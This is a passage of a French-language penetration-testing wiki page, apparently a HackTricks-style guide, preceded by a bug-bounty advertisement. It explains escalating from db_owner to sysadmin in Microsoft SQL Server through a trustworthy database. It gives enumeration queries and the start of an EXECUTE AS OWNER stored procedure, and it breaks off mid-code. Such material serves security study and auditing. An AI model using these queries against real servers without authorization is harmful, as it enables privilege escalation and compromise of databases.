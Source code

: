 <figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

**HackenProof est la plateforme des primes pour les bugs de cryptographie.**

**Obtenez des récompenses sans délai**\
Les primes HackenProof sont lancées uniquement lorsque leurs clients déposent le budget de récompense. Vous recevrez la récompense après la vérification du bug.

**Acquérez de l'expérience en pentesting web3**\
Les protocoles blockchain et les contrats intelligents sont le nouvel Internet ! Maîtrisez la sécurité web3 à ses débuts.

**Devenez une légende du hacking web3**\
Gagnez des points de réputation avec chaque bug vérifié et conquérez le sommet du classement hebdomadaire.

[**Inscrivez-vous sur HackenProof**](https://hackenproof.com/register) et commencez à gagner grâce à vos hacks !

{% embed url="https://hackenproof.com/register" %}

## Élévation de privilèges MSSQL

### De db\_owner à sysadmin

Si un **utilisateur régulier** se voit attribuer le rôle **`db_owner`** sur la **base de données appartenant à un utilisateur administrateur** (comme **`sa`**) et que cette base de données est configurée comme **`trustworthy`**, cet utilisateur peut abuser de ces privilèges pour **élever ses privilèges** car des **procédures stockées** créées dans cette base de données peuvent s'exécuter en tant que propriétaire (**administrateur**).
```sql
# Get owners of databases
SELECT suser_sname(owner_sid) FROM sys.databases

# Find trustworthy databases
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;

# Get roles over the selected database (look for your username as db_owner)
USE <trustworthy_db>
SELECT rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)

# If you found you are db_owner of a trustworthy database, you can privesc:
--1. Create a stored procedure to add your user to sysadmin role
USE <trustworthy_db>

CREATE PROCEDURE sp_elevate_me
WITH EXECUTE AS OWNER
AS
```